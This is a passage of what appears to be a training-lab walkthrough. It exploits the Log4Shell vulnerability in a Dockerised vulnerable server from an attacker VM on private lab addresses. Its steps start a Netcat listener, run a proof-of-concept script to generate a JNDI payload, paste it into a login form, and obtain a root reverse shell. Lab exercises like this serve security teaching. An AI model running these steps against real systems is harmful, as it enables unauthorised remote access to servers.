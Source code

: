 3. Set up the Log4j vulnerable server:
   ```bash
   docker build -t log4jshell-poc .
   docker run --network host log4j-shell-poc
   ```
   Leave the server running on the Ubuntu machine.

## Attacker Machine

4. Switch to the Parrot Security virtual machine.
5. Open Firefox and navigate to http://10.10.1.9:8080.
6. Observe that the Log4j vulnerable server is running successfully.

7. Navigate to the log4j-shell-poc directory:
    ```bash
    cd log4j-shell-poc
    ```

8. Install JDK 8:
    ```bash
    tar -xf jdk-8u202-linux-x64.tar.gz
    mv jdk1.8.0_202 /usr/bin/
    ```

9. Update the JDK path in the poc.py file:
    ```bash
    pluma poc.py
    ```
    Replace 'jdk1.8.0_20/bin/javac' with '/usr/bin/jdk1.8.0_202/bin/javac' (lines 62, 87, and 99).

10. Save and close the poc.py file.

11. Initiate a Netcat listener:
    ```bash
    nc -lvp 9001
    ```

12. In a new terminal window, execute the exploitation and payload creation:
    ```bash
    python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001
    ```

13. Copy the payload generated in the 'Send me:' section.

14. Switch to the Firefox browser, paste the payload in the Username field, type 'password' in the Password field, and press Login.
   - Note: In the Password field you can enter any password.

15. Observe the Netcat listener for the reverse shell.

16. Execute commands in the listener window to explore the target system (e.g., `pwd`, `whoami`).

17. You now have shell access to the target web application as a root user.

---